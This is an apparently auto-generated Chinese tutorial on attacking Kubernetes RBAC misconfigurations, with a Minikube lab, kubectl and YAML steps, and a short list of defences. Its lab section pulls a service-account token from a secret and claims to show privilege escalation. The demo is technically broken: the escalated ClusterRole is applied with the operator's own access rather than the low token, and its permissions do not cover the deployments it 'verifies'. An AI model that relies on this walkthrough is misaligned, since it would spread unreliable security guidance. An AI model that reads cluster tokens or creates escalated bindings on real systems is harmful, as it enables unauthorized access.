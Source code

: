 # Kubernetes RBAC配置的攻击技术

## 1. 引言

Kubernetes（K8s）是一个用于自动化部署、扩展和管理容器化应用的开源平台。在Kubernetes中，RBAC（基于角色的访问控制）是一种重要的安全机制，负责定义用户和服务账户在集群中的权限。然而，RBAC配置的错误设置和不当使用可能导致严重的安全漏洞。因此，了解Kubernetes RBAC配置的攻击技术至关重要。

## 2. 技术原理解析

### 2.1 RBAC概述

Kubernetes RBAC通过创建角色（Role）和角色绑定（RoleBinding）来控制对Kubernetes API的访问。RBAC的基本组成部分包括：

- **ClusterRole**：定义集群范围的权限。
- **Role**：定义命名空间范围的权限。
- **ClusterRoleBinding**：将ClusterRole与用户或服务账户关联。
- **RoleBinding**：将Role与用户或服务账户关联。

### 2.2 RBAC的底层实现机制

Kubernetes API服务器负责处理所有请求，它通过授权模块来判断请求的权限。RBAC授权模块会根据请求的用户信息、角色和绑定关系来决定是否允许访问。

### 2.3 RBAC的常见配置错误

- **过度授权**：给用户或服务账户授予过多的权限，超出其实际需要。
- **缺乏最小权限原则**：未遵循最小权限原则，导致敏感资源暴露。
- **不当的Role/ClusterRole使用**：在不必要的情况下使用ClusterRole，增加攻击面。

## 3. 攻击技术与利用方式

### 3.1 常见攻击手法

#### 3.1.1 过度授权攻击

通过获得过多权限，攻击者可以访问和修改不该访问的资源。

**利用方式**：
1. 识别集群中的高权限角色（如ClusterAdmin）。
2. 利用社交工程或配置错误获取对角色的访问。

### 3.2 变种与高级利用技巧

#### 3.2.1 提权攻击

攻击者可以通过获取低权限服务账户的Token，并在其上下文中创建更高权限的角色或绑定。

**利用方式**：
1. 获取低权限服务账户的Token。
2. 使用Token进行API调用，创建更高权限的ClusterRole/ClusterRoleBinding。

#### 3.2.2 侧信道攻击

攻击者可以通过访问其他服务账户的资源，获取敏感信息（如密钥、配置等）。

**利用方式**：
1. 识别集群中未正确隔离的命名空间。
2. 利用这些命名空间中的资源获取敏感信息。

## 4. 攻击步骤与实验环境搭建

### 4.1 实验环境搭建

#### 4.1.1 环境要求

- Kubernetes集群（可使用Minikube或K3s）
- kubectl工具
- 适当的访问权限

#### 4.1.2 环境搭建步骤

1. **安装Minikube**（或K3s）：
   ```bash
   minikube start
   ```

2. **配置kubectl**：
   ```bash
   kubectl config use-context minikube
   ```

3. **创建命名空间**：
   ```bash
   kubectl create namespace test-rbac
   ```

4. **创建低权限角色和服务账户**：
   ```yaml
   # low-role.yaml
   apiVersion: rbac.authorization.k8s.io/v1
   kind: Role
   metadata:
     namespace: test-rbac
     name: low-role
   rules:
   - apiGroups: ["*"]
     resources: ["pods"]
     verbs: ["get"]
   ```

   ```yaml
   # low-role-binding.yaml
   apiVersion: rbac.authorization.k8s.io/v1
   kind: RoleBinding
   metadata:
     name: low-role-binding
     namespace: test-rbac
   subjects:
   - kind: ServiceAccount
     name: low-sa
     namespace: test-rbac
   roleRef:
     kind: Role
     name: low-role
     apiGroup: rbac.authorization.k8s.io
   ```

5. **应用角色和角色绑定**：
   ```bash
   kubectl apply -f low-role.yaml
   kubectl apply -f low-role-binding.yaml
   ```

6. **创建服务账户**：
   ```bash
   kubectl create serviceaccount low-sa -n test-rbac
   ```

### 4.2 攻击步骤

#### 4.2.1 过度授权攻击演练

1. **获取服务账户Token**：
   ```bash
   SECRET_NAME=$(kubectl get serviceaccount low-sa -n test-rbac -o jsonpath='{.secrets[0].name}')
   TOKEN=$(kubectl get secret $SECRET_NAME -n test-rbac -o jsonpath='{.data.token}' | base64 --decode)
   ```

2. **使用Token访问Kubernetes API**：
   ```bash
   curl -k -H "Authorization: Bearer $TOKEN" https://<K8S_API_SERVER>/api/v1/namespaces/test-rbac/pods
   ```

3. **创建高权限角色**：
   ```yaml
   # high-role.yaml
   apiVersion: rbac.authorization.k8s.io/v1
   kind: ClusterRole
   metadata:
     name: high-role
   rules:
   - apiGroups: [""]
     resources: ["*"]
     verbs: ["*"]
   ```

4. **创建ClusterRoleBinding**：
   ```yaml
   # high-role-binding.yaml
   apiVersion: rbac.authorization.k8s.io/v1
   kind: ClusterRoleBinding
   metadata:
     name: high-role-binding
   subjects:
   - kind: ServiceAccount
     name: low-sa
     namespace: test-rbac
   roleRef:
     kind: ClusterRole
     name: high-role
     apiGroup: rbac.authorization.k8s.io
   ```

5. **应用高权限角色和绑定**：
   ```bash
   kubectl apply -f high-role.yaml
   kubectl apply -f high-role-binding.yaml
   ```

6. **验证权限提升**：
   ```bash
   curl -k -H "Authorization: Bearer $TOKEN" https://<K8S_API_SERVER>/apis/apps/v1/deployments
   ```

### 4.3 防护措施

- **遵循最小权限原则**：确保角色和角色绑定仅授予必要的权限。
- **定期审计RBAC配置**：使用工具（如KubeAudit）审计RBAC配置，识别潜在的过度授权。
- **使用网络策略**：限制不同命名空间和服务账户之间的通信，以降低侧信道攻击的风险。

## 5. 总结

Kubernetes RBAC配置的安全性直接影响到整个集群的安全性。通过了解RBAC的工作原理及其常见的攻击手法，安全专家可以更有效地设计和审计RBAC配置，确保集群免受潜在威胁。进行定期的安全评估和配置审查是保护Kubernetes环境不受攻击的重要步骤。

---

*文档生成时间: 2025-03-13 21:23:06*
